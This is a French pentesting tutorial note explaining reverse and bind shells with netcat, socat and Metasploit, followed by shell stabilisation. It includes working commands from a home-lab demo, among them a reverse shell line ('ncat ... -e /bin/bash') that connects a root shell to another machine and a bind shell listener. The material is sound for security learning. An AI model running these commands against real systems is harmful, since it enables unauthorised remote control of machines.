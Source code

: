 
Un shell est une interface homme machine en ligne de commande.

## __Outils__

Pour mettre en place des reverses shells, on a une mutltitude d'outils disponible.

### Netcat

**Netcat** peut être utilisé pour effectuer beaucoup de choses comme du **banner grabbing** pendant des énumérations. Mais l'usage principale qu'on va en faire est de **pouvoir recevoir une connection** depuis un port.

### Socat

**Socat** peut faire **tous ce que Netcat peut faire** mais aussi **beaucoup d'autres choses**. Les shells socat sont **plus stable** que les shells Netcat.

Les 2 problèmes de socat comparé à Netcat sont :
- La syntaxe est **plus difficile**
- Netcat est installé sur pratiquement toutes les distributions Linux par défaut. Socat est **très rarement installé** par défaut.

### Metasploit multi/handler

C'est le module **`exploit/multi/handler`** de metasploit, il a les **mêmes fonctionnalités** que Netcat ou Socat mais c'est le seul moyen d'intéragir avec un **shell meterpreter** et de gérer des **payloads metasploit**.

### Msfvenom

**[Msfvenom](Metasploit_Msfvenom)** fait aussi partie de msf - metasploit framework, mais c'est un **outil indépendant**. Il est utilisé pour créer des payloads et **aussi des reverses shell**.

### Autres

On peut **[créer des reverses shell pour des langages de programation en particulier ou pour un os particulier](Reverse_shell##__Scripts__)**.


## __Types de shell__

### Reverse shell

Un **reverse shell** est ce qui se produit quand une cible **éxécute un code qui connecte un shell à notre machine** (`/bin/bash` sur linux et `cmd.exe` sur windows). L'avantage d'un reverse shell est qu'on **contourne les règles des firewalls**, cependant le problème est qu'on est obligé de notre coté de **configurer notre réseau pour accepter ce shell**.

Notre machine

```shell
user@ip:~$ sudo nc -lvnp 443
Listening on 0.0.0.0 443
```
**Mise en place du listener**.

Machine cible

```shell
root@raspberrypi:/# ncat 192.168.1.100 443 -e /bin/bash
```
**Execution du script**.

Notre machine

```shell
Connection received on 192.168.1.104 47512
ls
Bookshelf
Desktop
Documents
Downloads
Music
Pictures
pi-rfid
prog.py
Public
script.py
script.py.save
Templates
Videos
```
**Execution de commande sur la machine cible**.

### Bind shell

Un **blind shell** est ce qui se produit quand une cible va **démarrer un listener** attaché à un shell. Ce **port** est alors **ouvert** et on peut s'y connecter et obtenir l'execution du shell. L'avantage est qu'**on a aucune configuration à faire sur notre réseau** mais il peut être **empeché par des firewalls**.

Machine cible

```shell
root@raspberrypi:/home/thomas# ncat -vnlp 4433 -e /bin/bash
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4433
Ncat: Listening on 0.0.0.0:4433
Ncat: Connection from 192.168.1.100.
Ncat: Connection from 192.168.1.100:57085.
```
**Lancement du serveur netcat**.

Notre machine

```shell
user@ip:~$ nc 192.168.1.104 4433
ls
Bookshelf
Desktop
Documents
Downloads
Music
Pictures
pi-rfid
prog.py
Public
script.py
script.py.save
Templates
Videos

```
**Connection au port**.

### Interactive shell

Un **shell interactif** est un shell ou une **action utilisateur est requise**. 

![[shell-interactif.png]]

Ici, on peut utiliser la commande **ssh** car **on peut répondre à l'interaction**.

### Non Interactive shell

Un **shell non interactif** n'offre **pas** le luxe des shells *interactif*.

![[shell-non-interactif.png]]

On peut utiliser la commande **whoami** car elle **n'est pas interactive** mais **pas la commande ssh**.


## __Stabilisation__

Lorsque l'on a un shell sur une machine, **plusieurs problèmes** s'expose :

- On ne peut **pas utiliser les flèches**.
- On ne peut **pas utiliser la tabulations**.
- Un simple **CTRL + C tue tout notre shell**.

Pour palier ces problèmes on doit le stabiliser.

### Python

Comme python est installé dans la plupart des machines on peut l'utiliser pour stabiliser notre shell.

#### 1- Embélissement

Une fois dans notre shell la première commande à executer est **`python -c 'import pty;pty.spawn("/bin/bash")'`**.
Cela rendra notre shell **plus beau** mais les touches comme les flèches et les tabulations ne nous serront toujours pas accessible, tout comme le problème du CTRL + C.

```shell
claquetteuuuh@ip:~$ nc 192.168.1.104 4433
whoami
root
python -c 'import pty;pty.spawn("/bin/bash")'
root@raspberrypi:/home/thomas#
```

#### 2- Commande de terme

Pour acceder aux **commandes de termes** comme `clear`, on doit executer la commande **`export TERM=xterm`**.

#### 3- Acces aux touches

Pour retirer les problèmes principaux, on va d'abord mettre notre **shell en arrière plan** en utilisant ***CTRL + Z***.
**Une fois dans notre terminal** on va executer la commande **`stty raw -echo; fg`** qui va **désactiver notre propre echo** et donc **donner accès aux touches et à l'auto-completion** puis remettre en premier plan notre shell.

